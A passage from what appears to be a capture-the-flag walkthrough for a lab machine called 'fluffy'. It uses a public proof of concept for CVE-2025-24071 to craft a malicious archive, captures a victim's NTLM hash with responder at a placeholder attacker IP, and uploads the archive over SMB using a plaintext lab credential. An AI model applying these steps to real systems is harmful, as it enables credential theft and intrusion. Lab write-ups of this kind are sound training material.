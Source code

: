 Download and read the pdf file
```bash
get Upgrade_Notice.pdf
```
## user.txt
### j.fleischman -> p.agila
The pdf file contains a list of CVEs the server is vulnerable to

```bash
# spoofing over network
CVE-2025-24996
CVE-2025-24071

# denial of service
CVE-2025-46785
CVE-2025-29968

# AD spoofing
CVE-2025-21193

# create/overwrite files!!!
CVE-2025-3445
```

We're able to find an exploit for [CVE-2025-24071](https://github.com/0x6rss/CVE-2025-24071_PoC){:target="_blank"}{:rel="noopener noreferrer"}. It'll create a malicious archive file we need to upload onto the server. When it's extracted, the payload will send user's `NTLM` hash to the attacking machine!

Clone the repo and use the script to generate our payload, substituting your IP. This will create the file `exploit.zip` which we want to upload. 
```bash
python3 poc.py
Enter your file name: test
Enter IP (EX: 192.168.1.162): <ATTACKER_IP>
completed
```

We need to setup our machine to accept the requests from the victim machine using `responder`
```bash
sudo responder -I tun0
```

Upload the `exploit.zip` file to `SMB` and wait for a response in responder
```bash
┌──(kali㉿kali)-[~/fluffy/CVE-2025-24071_PoC]
└─$ smbclient.py 'j.fleischman:J0elTHEM4n1990!@fluffy.htb'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# use IT
# put exploit.zip
```
